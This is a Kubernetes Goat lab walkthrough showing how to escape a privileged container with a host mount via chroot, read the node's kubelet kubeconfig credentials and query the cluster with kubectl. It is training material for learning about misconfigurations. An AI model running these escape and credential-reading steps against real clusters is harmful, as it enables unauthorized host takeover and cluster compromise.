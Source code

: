 ```yaml
---
title: ⎈ Container escape to the host system
sidebar_label: Welcome
sidebar_position: 2
description: Gain access to host system by escaping out of the container in Kubernetes Container - Kubernetes Goat Scenario 🚀
slug: container-escape-to-the-host-system-in-kubernetes-containers/welcome
---
```


# ⎈ Container escape to the host system

## 🙌 Overview

This scenario showcases the common misconfigurations and one of the error-prone security issues in Kubernetes, container environments, and the general security world. Giving privileges that are not required for things always makes security worse. This is especially true in the containers and Kubernetes world. You can also apply this scenario further and beyond the container to other systems and services based on the configuration and setup of the cluster environments and resources. In this scenario you will see a privileged container escape to gain access to the host system.

![](../images/scenario-4.png)

By the end of the scenario, you will understand and learn the following:

1. Able to exploit the container and escape out of the docker container
2. You will learn to test and exploit the misconfigured and privileged containers
3. Learn about common misconfigurations and possible damage due to them for the containers, Kubernetes, and clusterized environments

### ⚡️ The story

Most of the monitoring, tracing, and debugging software requires extra privileges and capabilities to run. In this scenario, you will see a pod with extra capabilities and privileges including HostPath allowing you to gain access to the host system and provide Node level configuration to gain complete cluster compromise.

:::info

To get started with the scenario, navigate to [http://127.0.0.1:1233](http://127.0.0.1:1233)

:::

![Scenario 4 Welcome](../images/sc-4-1.png)

### 🎯 Goals

The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access.

:::tip

Gain access to the host system and obtain the node level kubeconfig file `/var/lib/kubelet/kubeconfig`, and query the Kubernetes nodes using the obtained configuration.

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Are you still in the container? </b></summary>
  <div>
    <div>See the mounted file systems, also look the capabilities available for the container using <b>capsh</b> 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Escaped container? </b></summary>
  <div>
    <div>You can recon the system, some interesting places to obtain the node level configuration are <b>/var/lib/kubelet/kubeconfig</b> and I hope you know how to query Kubernetes API for nodes? 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

- After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as `/host-system` is mounted.

```bash
capsh --print
```

```bash
mount
```

- Now you can explore the mounted file system by navigating to the `/host-system` path

```bash
ls /host-system/
```

![Scenario 4 host system](../images/sc-4-2.png)

- You can gain access to the host system privileges using `chroot`

```bash
chroot /host-system bash
```

- As you can see, now you can access all the host system resources like docker containers, configurations, etc.

```bash
docker ps
```

![Scenario 4 chroot host](../images/sc-4-3.png)

- The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```bash
cat /var/lib/kubelet/kubeconfig
```

![Scenario 4 kubelet config](../images/sc-4-4.png)

:::tip

You can use the available `kubectl` command-line utility to explore other resources using the obtained configuration. Also, you can leverage lots of other potential things by using the available utilities or downloading them as required.

:::

- Using the kubelet configuration to list the Kubernetes cluster-wide resources

```bash
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```

![Scenario 4 get kube-system](../images/sc-4-5.png)

:::info

From here you can go beyond by performing the lateral moment and a post-exploitation based on the available setup, configuration, and resources
:::

- You are able to obtain the available nodes in the Kubernetes cluster by running the following command:

```bash
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes
```

- Hooray 🥳 , now you can see that it returns the cluster nodes available as we have the privilege/permissions with obtained configuration to query the Kubernetes API server


## 🔖 References

- [Realworld case study of exploiting cap_sys_ptrace capability](https://madhuakula.com/content/attacking-and-auditing-docker-containers-using-opensource/attacking-docker-containers/capability.html)
- [Abusing Privileged and Unprivileged Linux Containers - NCC Group Whitepaper](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container_whitepaper.pdf)
- [Understanding and Hardening Linux Containers - NCC Group Whitepaper](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc_group_understanding_hardening_linux_containers-1-1.pdf)
